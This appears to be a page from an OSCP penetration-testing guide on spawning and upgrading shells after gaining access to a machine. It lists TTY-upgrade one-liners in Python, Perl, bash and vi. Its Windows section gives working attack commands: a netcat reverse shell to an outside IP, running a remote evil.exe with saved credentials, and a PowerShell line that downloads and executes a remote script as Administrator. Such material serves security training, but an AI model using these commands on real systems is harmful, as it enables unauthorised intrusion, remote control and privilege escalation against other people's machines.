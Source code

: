 Spawning Shells · Total OSCP Guide
==================================



<https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html>

Non-interactive tty-shell
If you have a non-tty-shell there are certain commands and stuff you can't do. This can happen if you upload reverse shells on a webserver, so that the shell you get is by the user www-data, or similar. These users are not meant to have shells as they don't interact with the system has humans do.

So if you don't have a tty-shell you can't run su, sudo for example. This can be annoying if you manage to get a root password but you can't use it.

Anyways, if you get one of these shells you can upgrade it to a tty-shell using the following methods:

## Using python

    python -c 'import pty; pty.spawn("/bin/sh")'
    
    python3 -c 'import pty; pty.spawn("/bin/sh")'
    
ou

    python3 -c 'import pty; pty.spawn("/bin/bash")'


    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
<Ctrl + Z>

    stty raw -echo; fg
    reset
    
    
## Script

    script /dev/null -c bash
<Ctrl + Z>
    
    stty raw -echo; fg
    reset
    
## Echo

    echo 'os.system('/bin/bash')'

## sh

    /bin/sh -i

## bash

    /bin/bash -i

## Perl

    perl -e 'exec "/bin/sh";'

## From within VI

    :!bash
    
    
## Windows cmd

    runas/user:acosta ".\nc64.exe -e C:\windows\system32\cmd.exe 192.168.0.165 8083"
    
    ### Runas

    cmdkey /list
    runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
    runas /savecred /user:Administrator "cmd.exe /k whoami"
    
## windows powershell

    $password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
    Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5:8000/shell2.ps1')" -Credential $cred